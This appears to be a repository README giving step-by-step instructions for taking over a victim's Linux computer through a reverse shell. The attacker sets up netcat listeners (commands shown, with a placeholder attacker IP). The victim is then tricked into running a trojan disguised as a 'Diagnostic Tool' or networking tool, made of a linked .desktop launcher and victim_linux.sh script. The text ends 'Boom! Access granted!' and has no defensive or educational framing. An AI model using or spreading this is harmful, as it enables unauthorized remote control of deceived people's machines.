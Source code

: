 # Gain access to victim's computer with reverse shell

1. On **attacker's** computer (Linux with netcat installed), run the following if
    - victim is using linux (**our case**)
    ```shell
    $ sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```

    - ~~victim is using Windows~~
    ```shell
    $ stty raw -echo; (stty size; cat) | nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```

2. Wait for the victim to run the 'Diagnostic Tool' executable file: 
    - Linux:
        - Download this and uncompressed it: [NetworkingTool.tar.gz](./NetworkingTool.tar.gz), or download the following two:
            - [NetworkTool.desktop](./NetworkTool.desktop) (executable), together with
            - [victim_linux.sh](./victim_linux.sh)
        - Note: make the .desktop file executable by
            ```shell
            $ chmod +x NetworkTool.desktop 
            ```
    - ~~[Windows](Archive/victim_windows.py)~~

3. Boom! Access granted!
